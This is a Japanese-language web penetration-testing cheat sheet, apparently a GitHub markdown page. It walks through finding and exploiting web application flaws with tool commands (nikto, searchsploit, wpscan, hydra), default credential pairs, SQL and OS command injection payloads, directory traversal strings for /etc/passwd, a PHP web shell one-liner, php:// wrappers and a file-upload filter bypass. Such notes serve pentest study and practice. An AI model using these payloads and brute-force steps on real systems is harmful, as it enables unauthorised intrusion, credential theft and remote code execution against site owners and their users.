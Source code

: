 # ***<span style="color:blue;">脆弱性を発見するまでの流れ</span>***
１　webサーバが稼働しているポートを探す(80,443以外にも)  
２　webサーバ自体に脆弱性がないか調査する  
３　webアプリが動作しているURLを調査する  
４　webアプリのパブリッシュエクスプロイトがないか調査する  
５　認証がある場合はログイン出来ないか試す  
６　悪用できる機能がないか調査する  
# ***<span style="color:blue;">webサーバの脆弱性調査</span>***
- nmapなどからわかったバージョンについて検索をする
- httpヘッダからバージョンを確認・調査
- niktoを用いた自動スキャン   
```
$ nikto -h http://<IP>:<port>
```   
# ***<span style="color:blue;">既知の脆弱性の調査</span>***
- exploitdb内のexploitがないか調査   
```
$ searchsploit <app & verdion>
```
- PoCはgithub上で公開されていることが多い   
```
<app><verdion> exploit github [検索]
```
- プラグインやフレームワークがある場合はそれについても調査   
```
$ wpscan -url <url> -enumerate u,ap
```   
- ソースコードにアプリ名が記載されていることがある   
-- ライブラリやプラグイン、バージョンなども
# ***<span style="color:blue;">認証の突破</span>***
- 簡単なクレデンシャルを試す   
	- admin:admin
	- admin:password
	- root:root
	- root:toor
	- root:password
- デフォルトクレデンシャル(インストール時に使う）を試す   
```
<app>default credential [検索]
```
- ブルートフォース   
	- ツールを用いてワードリストを作成可能   
```
cewl <url>    
hydra -l admin -P <wordlists> http://<IP>:<port> http-post-form '<path>:<data>:<error>'
```   
- SQLインジェクション(' or 1=1 --)   
# ***<span style="color:blue;">機能の列挙</span>***
- ユーザ登録機能がある場合は登録してから行う
- 検索機能　→　SQLインジェクン   
	- 認証がSQLインジェクションで突破できた場合は特に
- OSコマンドの実行機能　→　OSコマンドインジェクション
- ファイルのダンロード機能　→　ディレクトリトラバーサル
- ファイルの読み込み・実行機能　→　Remoto File Includion /LFI
- ファイルアップロード機能　→　Arbitrary File upload  
# ***<span style="color:blue;">SQLインジェクション</span>***
- 基本的にパスワード（ハッシュ）のダンプを目標とする
- データベースによっては直接RCEも
- Union-base SQL Injekutionが多い  
# ***<span style="color:blue;">OSコマンドインジェクション</span>***
- Remote Code Executionが目標
- urlのクエリやpostリクエストのデータの中身から推測   
	- Burp suiteが活躍する
- ；や&&を使ってRCEを達成する   
	- 使えるコマンドのホワイトリストや記号のブラックリストも
```
hoge;ls
hoge && ls
hoge | ls 
hoge || ls
hoge 'ls'
hoge $(ls)
hoge%0Acat%20 /etc/passwd
```
# ***<span style="color:blue;">ディレクトリトラバーサル</span>***
- 秘密情報の窃取が目標
- ファイルの読み込み機能やダウンロード機能から   
	- ファイル名を変更する
- ../を用いて本来であれば読み込めないファイルを読み取る   
	- webアプリの設定ファイルなどを読み取る
	- ディレクトリトラバーサルが可能かどうあか確認するためにファイル   
```
../../../../etc/passwd   
../../../../windows/win.ini
```
# ***<span style="color:blue;">RFI／Local File Inclusion</span>***
- RCEもしくは秘密情報の窃取が目標
- ファイルのイングルード機能を悪用する
- RFIが出来る場合はそのままRCE   
```
<?php system($_GET['cmd']);?>
```
- LFIの場合はファイルを読み取ったりphp wrapperを使う   
```
php://filter/convert.base64-encode/resource=index.php   
php://input
```   
# ***<span style="color:blue;">Arbitrary File Upload</span>***
- RCEが目標
- ファイルのアップロード機能を悪用    
	- アップロード先がアクセス可能な場合はweb shellの設置が可能
- フィルターのバイパス   
	- 拡張子やファイルヘッダ、ファイルサイズなどの制限があることがある
```
$ head -c 20 test.jpg > test   
$ cat test shell.php > bypass.php   
Content-Type:image/png
Content-Type:image/jpeg
```
